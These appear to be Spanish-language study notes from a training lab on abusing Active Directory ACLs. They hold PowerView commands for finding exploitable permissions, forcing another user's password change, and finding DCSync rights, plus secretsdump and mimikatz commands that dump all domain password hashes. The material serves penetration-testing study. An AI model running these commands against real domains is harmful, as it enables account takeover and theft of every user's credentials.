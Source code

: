 #ACL 
## Enumeración ACL
Las ACEs nos pueden servir para establecer persistencia, escalar privilegios o realizar moviemientos laterales, además de que son muy difíciles de detectar por AV o escáneres de vulnerabilidades. Algunas de las ACEs más importantes las podemos detectar con herramientas como `BloodHound` y abusarlas con `PowerView`, entre otras herramientas posibles
Tabla de ACEs y como se pueden explotar

## Tabla explotación

| **ACL (Permiso/ACE)**   | **Técnica/Herramienta de Abuso**                   | **Descripción del Abuso**                             |
| ----------------------- | -------------------------------------------------- | ----------------------------------------------------- |
| **ForceChangePassword** | `Set-DomainUserPassword`                           | Cambiar la contraseña de un usuario sin conocerla.    |
| **Add Member**          | `Add-DomainGroupMember`                            | Agregar usuarios a grupos, elevando privilegios.      |
| **GenericAll**          | `Set-DomainUserPassword` / `Add-DomainGroupMember` | Control total sobre el objeto (contraseñas/grupos).   |
| **GenericWrite**        | `Set-DomainObject`                                 | Modificar atributos de un objeto de AD.               |
| **WriteOwner**          | `Set-DomainObjectOwner`                            | Cambiar el dueño de un objeto, obteniendo control.    |
| **WriteDACL**           | `Add-DomainObjectACL`                              | Modificar permisos del objeto (ACL).                  |
| **AllExtendedRights**   | `Set-DomainUserPassword` / `Add-DomainGroupMember` | Ejercer derechos avanzados (restablecer contraseñas). |
| **Addself**             | `Add-DomainGroupMember`                            | Agregarse a sí mismo a grupos con privilegios altos.  |
![[Pasted image 20250108092039.png]]
## Enumeración ACL

Es complicado hacerlo de forma manual y genera gran cantidad de información irrelevante (p. ej: `Find-InterestingDomainAcl` genera demasiada información). 
### Búsqueda dirigida - `Get-DomainObjectACL` (PowerView)
Se realiza una búsqueda sobre usuarios sobre los que tenemos el control (supongamos `wley`) y se identifican otros objetos sobre los que este usuario tiene permisos. Se añade la flag `ResolveGUIds` para que los permisos aparezcan en formato más amigable para el usuario
```powershell
$sid = Convert-NameToSid wley 
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```
Si no tuviéramos `PowerView`, aún podríamos obtener un resultado similar escribiendo lo siguiente:
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt 
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}
```
### Sharphound
Es más rápido, visual y potente para auditorías de Active Directory, especialmente para **identificar rutas de escalación de privilegios y relaciones complejas**.
## Ejemplos de abuso de ACEs
### Cambio de contraseña
**Permiso  `User-Force-Change-Password` -> `Set-DomainUserPassword`**
Supongamos que un usuario (`wley`) tiene un permiso `User-Force-Change-Password` sobre otro usuario (`damundsen`)
- Creamos objeto PSCredential para `wley`  con sus credenciales (`$credWley`)
	```powershell
	$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
	$CredWley = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
	```
- Creamos otro objeto tipo  `SecureString` para `damundsen` con las credenciales que queramos (`$passDam`)
	```powershell
	$passDam = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
 
	```
- Cambiamos la contraseña de usuario con `Set-DomainUsePassword` (no haría falta pasar credenciales si estuviéramos autenticados como `wley`)
	```powershell
	Set-DomainUserPassword -Identity damundsen -AccountPassword $passDam -Credential $CredWley -Verbose
	```
### Kerberoasting dirigido
**Permiso  `WriteProperty` | `Self` -> `Set-DomainObject`**
Se crea un SPN falso asociado a la cuenta de usuario que queramos comprometer para craquear posteriormente. [[Kerberoasting#Kerberoasting dirigido| Revisar aquí]]

### DCSync
Son parte de una ACL en AD. Estos privilegios permiten replicar datos del AD. Explota el protocolo Directory Replication Service (DRS), que utilizan los DC para sincronizar datos entre sí. En cuanto a obtención de información es equivalente a NTDS.dit
#### Comprobar usuarios con permisos DCSync
- Listar todos los usuarios ó grupos con permisos `DCSync`
	```powershell
	Get-DomainObjectAcl -SearchBase "DC=inlanefreight,DC=local" -ResolveGUIDs | ? {($_.ObjectType -match 'DS-Replication-Get-Changes|DS-Replication-Get-Changes-All')}
	```
- Comprobar si un usuario (`adunn`) tiene permisos DCSync sobre el dominio
	```powershell
	$sid = Convert-NameToSid adunn
	# $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
	Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
	# Opción chatgpt
	Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? {($_.SecurityIdentifier -eq (Get-DomainUser adunn).SID)}
	```
#### Extraer hashes NTML y tickets kerberos - `secretsdump.py`

```powershell
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@$target
```
- La flag `-just-dc` indica que debe extraer los hashes del archivo NTDS.dit
- Devolverá 3 archivos
#### Extraer hashes NTML y kerberos - `mimikatz`
- Extraer el hash de administrador
	```powershell
	privilege::debug 
	lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator 
	# Ó con un solo paso y guardando el contenido 
	mimikatz.exe "lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator" > resultado.txt
	```
- Extraer los hashes de todos los usuarios: 
	```powershell
	`mimikatz.exe "lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /all" > resultado.txt`
	```